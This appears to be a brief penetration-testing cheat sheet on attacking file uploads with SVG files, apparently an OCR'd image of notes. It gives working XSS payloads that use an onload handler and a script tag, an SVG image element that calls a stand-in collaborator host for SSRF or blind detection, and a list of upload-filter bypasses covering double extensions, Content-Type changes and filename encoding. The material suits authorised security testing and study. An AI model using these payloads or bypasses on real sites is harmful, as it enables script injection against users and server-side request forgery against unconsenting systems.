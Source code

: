 ```svg
<!-- onload alert -->
<svg xmlns="http://www.w3.org/2000/svg" onload="alert(document.domain)"></svg>

<!-- script tag -->
<svg xmlns="http://www.w3.org/2000/svg"><script>alert(document.domain)</script></svg>

<!-- external image -> useful for SSRF/blind testing -->
<svg xmlns="http://www.w3.org/2000/svg">
  <image href="http://YOUR-COLLAB.DOMAIN/track?test=svg"/>
</svg>
```
- Check: Content-Type returned, CSP, X-Content-Type-Options.
- Bypass:
  - Change `exploit.svg` to `exploit.svg.png` or `exploit.svg.jpg`
  - Modify `Content-Type` to `image/svg+xml` or `text/xml`
  - Send as `.txt` or `.html` with SVG content
  - URL-encode `exploit%2Esvg` or just add **spaces/newlines**

